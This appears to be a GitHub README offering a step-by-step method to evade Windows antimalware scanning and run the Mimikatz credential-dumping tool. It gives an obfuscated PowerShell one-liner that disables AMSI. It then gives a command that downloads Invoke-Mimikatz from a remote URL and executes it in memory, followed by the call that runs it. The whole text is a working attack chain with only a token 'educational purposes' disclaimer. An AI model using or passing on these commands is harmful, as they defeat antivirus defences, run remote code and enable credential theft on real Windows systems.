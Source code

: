 # 🔥 AMSI Bypass + Mimikatz Execution

This repository provides a method to bypass the **Windows Antimalware Scan Interface (AMSI)**, allowing **Mimikatz** to execute without triggering antivirus detection.  
⚠️ **This technique is for educational and research purposes only.** Use it responsibly.

---

## 🚀 How to Use

### **Step 1: Disable AMSI in PowerShell**
Run the following command in **PowerShell** to bypass AMSI:

```powershell
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType("System.Management.Automation.${b}${a}Utils");$z=$Ref.GetField("am${a}InitFailed",'NonPublic,Static');$z.SetValue($null,$true)
```
### **Step 2: Download Mimikatz**

````powershell
$Y=New-Object Net.WebClient;$script=$Y.DownloadString("https://raw.githubusercontent.com/dievus/PowerShellForPentesters/main/Tools/Invoke-Mimikatz.ps1");Invoke-Expression $script
````
### **Step 3: Execute Mimikatz**
Run the following command in **PowerShell** to execute Mimikatz:

```powershell
Invoke-Mimikatz
````

